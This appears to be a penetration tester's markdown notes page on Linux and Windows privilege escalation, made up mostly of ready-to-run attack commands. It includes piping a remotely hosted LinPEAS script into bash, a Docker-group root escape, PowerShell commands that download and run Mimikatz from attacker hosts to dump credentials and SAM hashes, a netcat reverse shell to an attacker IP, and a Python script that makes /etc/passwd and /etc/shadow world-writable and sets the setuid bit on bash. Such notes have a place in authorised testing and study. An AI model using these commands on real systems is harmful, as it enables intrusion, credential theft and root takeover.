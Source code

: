 ```yaml
---
description: Rough notes on privilege escalation
---
```


# Privilege Escalation

### Privilege Escalation - Linux

* If LinPEAS doesn't return anything useful then it is possible you already have the information needed to privilege escalate. Try default passwords, [priv esc with fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/), and other common tricks.
* [Docker Privesc](http://revshells.com)
* Don't forget to check for any Kernel exploits.&#x20;
  * `uname -a`
* For privilege escalation with fail2ban, use a netcat shell or modify the permissions of `/etc/shadow`
  * [Amazing Guide on Privilege Escalation with Fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)
* If there are no writable directories then just pipe LinPEAS (or other tool of choice) directly into bash:
  * `curl 10.10.10.1:8080/linpeas.sh | bash`
  * Run the following command to identify possible priivlege escalation efforts:
    * `which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null`
  * If you've identified a CronJob that may be exploitable then it may be worth plugging it into [CronGuru](https://crontab.guru/#\*/3\_\*\_\*\_\*\_\*).
  * If spawning a shell, check all files for MySQL credentials. It is likely you will be able to privilege escalate once located.
    * To login, ensure you have a stable shell and type `mysql -u root -p`
  * If you are a member of the 'Docker' group then there are multiple opportunities for privilege escalation.  Below is a list of a few examples:
    1. `docker images`
    2. `docker run -v /:/mnt --rm -it [IMAGE] chroot /mnt sh`
  * If breaking out of a restricted shell, ensure you check the local bin and then GTFOBins for any easy breakouts.
    *   Sometimes you will have to export your path after breaking out of a restricted shell. Use the following command to correct your path:

        ```
        export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

        ```

### Privilege Escalation - Windows

* PowerShell Empire has some great PS1 scripts readily available such as `Invoke-Watson` and `Invoke-MS16032` as examples. Their `Mimikatz.ps1` is also great. These can be accessed at `/usr/share/powershell-empire/empire/server/data/module_source/`
* Use the following command to search for cleartext passwords in registry:
  * `reg query HKCU /f password /t REG_SZ /s`
  * In some cases this may be modified to `reg query HKCU /f pass /t REG_SZ /s`
* Lots of people seem to forget that Windows binaries are readily available on Kali.&#x20;
  * `/usr/share/windows-binaries`
* Fix your Windows path with the following command: `set PATH=%SystemRoot%\system32;%SystemRoot%;`
* Unable to get Mimikatz onto a machine? Simply host a http server and execute the following:
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds`&#x20;
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.164:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command lsadump::sam`
* Check out `C:\Program Files (x86)` for any outdated and vulnerable installations.
* If Administrator credentials have been obtained but you can't get an interactive shell then strongly consider using the `runas` command in combination with a binary like netcat.&#x20;
  * `runas /env /profile /user:[DOMAIN]\Administrator "C:\Windows\Tasks\nc.exe -e cmd.exe [ATTACKER_IP] 443"`
* Mimikatz errors? Need to downgrade your version? Use the version availabke at [this link](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/).
* Here are some good resources for Windows Privilege Escalation
  * [0x1 Gitlab](https://0x1.gitlab.io/exploit/Windows-Privilege-Escalation/#juicy-potato-abusing-the-golden-privileges)
  * [Juicy Potato Walkthrough](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505)
  * [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)&#x20;
  * [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

### Python Priv Esc

We can privesc in multiple ways from running this script. For example, we can add a root user to the /etc/passwd file or we can run `/bin/bash -p` to obtain a shell with root privileges. .&#x20;

```python
import os

def stop(text,value):
        os.system("chmod 777 /etc/passwd");

def reset(text,value):
        os.system("chmod +s /bin/bash");

def start(text,value):
        os.system("chmod 777 /etc/shadow");
```
